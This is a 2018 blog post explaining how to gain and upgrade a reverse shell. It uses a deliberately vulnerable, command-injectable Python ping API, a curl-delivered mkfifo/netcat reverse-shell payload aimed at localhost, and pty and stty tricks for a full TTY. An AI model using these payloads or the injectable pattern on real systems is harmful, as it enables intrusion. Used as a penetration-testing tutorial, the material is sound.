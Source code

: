 Upgrading a reverse shell?
##########################

:date: 2018-09-08 12:00
:tags: shell, tty
:category: hack
:slug: 0x02
:authors: supakeen
:summary: Some notes on gaining and upgrading reverse shells.

You've found a reverse shell but it's not behaving like a proper shell. You
can't run `su` because it requires a tty and you might not have a prompt. This
is my quick summary on my notes on upgrading a reverse shell to something
useful. If you want other ways (and this way is included) read the canonical
ropnop_ article as well.

Let's start with an easy and vulnerable application: a `ping` API. If you've
read my previous post you know that there is a command injection in this
script.

**Do not run scripts like these on your own machine as they are insecure.**

.. code-block:: python

    import tornado.web
    import tornado.ioloop

    import subprocess


    class PingAsAService(tornado.web.RequestHandler):
        def get(self):
            host = self.get_query_argument("host")
            ping = subprocess.check_output("ping {}".format(host), shell=True)
            return self.write(ping)


    if __name__ == "__main__":
        app = tornado.web.Application([
            (r"/", PingAsAService),
        ])
        app.listen(8000, address="127.0.0.1")
        tornado.ioloop.IOLoop.current().start()

Using this service is pretty straightforward, passing it the `host` query
parameter will execute ping and return its output:

.. code-block:: plain

    % python3 donotrunthis.py &
    [1] 11479
    % curl 'http://localhost:8000/?host=localhost'
    PING localhost (127.0.0.1) 56(84) bytes of data.
    64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.039 ms

    --- localhost ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.039/0.039/0.039/0.000 ms

While getting a reverse shell is slightly out of scope for this post, here is
what I usually use. This one is from a well known cheatsheet_ and works for both
BSD and GNU nc.

Open three terminals.
---------------------

In one terminal where you don't run a terminal multipler setup your `nc` to
listen to a port. It is important that you don't run a terminal multiplexer such
as `screen` or `tmux` because we will be adjusting the terminal settings and
the mux will interfere.

.. code-block:: plain

   % nc -lv 4242
   Listening on [0.0.0.0] (family 0, port 4242)

This terminal will hang while waiting for a connection. In terminal two we'll
run our exploitable script. Let's not run it in the background as causing tty
input/output on a background job can cause the background process to be
paused.


.. code-block:: plain

   & python3 donotrunthis.py

In the last terminal we will run our exploit. `curl` has a handy option of
escaping the URL parameters for you but you need to pass `-G` to explicitly
make the request a `GET`.

.. code-block:: plain

    $ curl -Gv --data-urlencode 'host=localhost;rm /tmp/foo; mkfifo /tmp/foo; cat /tmp/foo | /bin/sh -i 2>&1 | nc localhost 4242 > /tmp/foo &' 'http://localhost:8000/'
    *   Trying 127.0.0.1...
    * TCP_NODELAY set
    * Connected to localhost (127.0.0.1) port 8000 (#0)
    > GET /?host=localhost%3Brm%20%2Ftmp%2Ffoo%3B%20mkfifo%20%2Ftmp%2Ffoo%3B%20cat%20%2Ftmp%2Ffoo%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%20localhost%204242%20%3E%20%2Ftmp%2Ffoo%20%26 HTTP/1.1
    > Host: localhost:8000
    > User-Agent: curl/7.58.0
    > Accept: */*
    >

This terminal will now hang here as our exploitable application never returns
any data. However, if we look over at our terminal with `nc` in it:

.. code-block:: plain

    $ nc -lv 4242
    Listening on [0.0.0.0] (family 0, port 4242)
    Connection from localhost 44040 received!
    $

Our command injection has worked and is now connected to our netcat. But  
this shell has a few issues! When we run a program and try to `ctrl+c` it our
netcat program exits. And trying to run `su` yields another error:

.. code-block:: plain

    $ nc -lv 4242
    Listening on [0.0.0.0] (family 0, port 4242)
    Connection from localhost 44040 received!
    $ su -
    su: must be run from a terminal
    $

The reason of why is not relevant in this article but the gist is that your
command injection was not allocated a `pty`. We can work around that by
first gaining a pty using python.

.. code-block:: plain

    $ nc -lv 4242
    Listening on [0.0.0.0] (family 0, port 4242)
    Connection from localhost 44040 received!
    $ su -
    su: must be run from a terminal
    $ python -c 'import pty; pty.spawn("/bin/bash")'
    user@hole:~$ whoami
    whoami
    user
    user@hole:~$ su -
    su -
    Password: asdf

    su: Authentication failure

Our shell gained a pty and with it a fancy prompt but everything we type is being
output and sadly using `ctrl+c` still exits our nc. Not the process on the
remote.

To fix this we're going to tell our own terminal to not interpret any command
sequences anymore.

First we `ctrl+z` which moves the current `nc` to the background. We then put
our own terminal in raw mode using `stty raw -echo`.

.. code-block:: plain

    $ nc -lv 4242
    Listening on [0.0.0.0] (family 0, port 4242)
    Connection from localhost 44040 received!
    $ su -
    su: must be run from a terminal
    $ python -c 'import pty; pty.spawn("/bin/bash")'
    user@hole:~$ whoami
    whoami
    user
    user@hole:~$ su -
    su -
    Password: asdf

    su: Authentication failure

    user@hole:~$ ^Z
    [1]+  Stopped                 nc -lv 4242
    $ stty raw -echo

After you enter this you will see nothing and your own keypresses won't be
shown anymore. Enter `fg` blindly to resume the netcat process after which
you will see output again as the pty you spawned earlier is now talking to your
terminal. This means the double output for keys is gone. For good measure
`reset` straight after the `fg` and let's see if everything is as it should
be.

This will clear the and possibly resize it for you. You now have a fully
functional reverse shell. You can run tmux or screen, or any other application
your heart desires.

.. _cheatsheet: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
.. _ropnop: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
